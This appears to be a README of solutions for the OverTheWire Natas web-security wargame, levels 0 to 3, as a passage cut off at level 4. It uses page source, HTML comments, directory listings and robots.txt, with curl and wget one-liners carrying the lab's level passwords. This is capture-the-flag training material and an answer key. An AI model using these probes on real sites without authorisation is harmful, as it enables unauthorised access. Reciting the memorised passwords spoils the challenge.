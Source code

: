 # Solution

---

- natas0
    - ```Login to web:```
    - ```inspec element the page and look for comments```

- other solution:
    - ```view-source:http://natas0.natas.labs.overthewire.org/```

- automated:
    - ```wget --user=natas0 --password=natas0 -q -O - http://natas0.natas.labs.overthewire.org/ | grep -oe '<!--[A-Za-z].*' | cut -d ' ' -f6```

- natas1
    - ```Login to web:```
    - ```view-source:http://natas0.natas.labs.overthewire.org/```

- automated:
    - ```curl -sv http://natas1.natas.labs.overthewire.org --user natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto | grep -o '<!--[A-Za-z].*' | awk '{print $6}'```
- python:
    - ```[solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas0/solve.py)```

- natas2
    - ```Login to web:```
    - ```view-source:http://natas2.natas.labs.overthewire.org```
    - ```click on files/pixel.png```
    - ```go back one directory and found users.txt```

- automated:
    - ```curl -sv http://natas2.natas.labs.overthewire.org/files/users.txt --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi | grep natas3 | awk -F: '{print $2}'```

- natas3
    - ```Login to web:```
    - ```view-source:http://natas3.natas.labs.overthewire.org```
    - ```HINT:Not even Google will find it this time...```
    - ```http://natas3.natas.labs.overthewire.org/robots.txt```
    - ```Found: /s3cr3t/```
    - ```http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt```

- automated:
    - ```curl -sv http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 | grep natas4 | cut -d':' -f2```

- natas4
    -
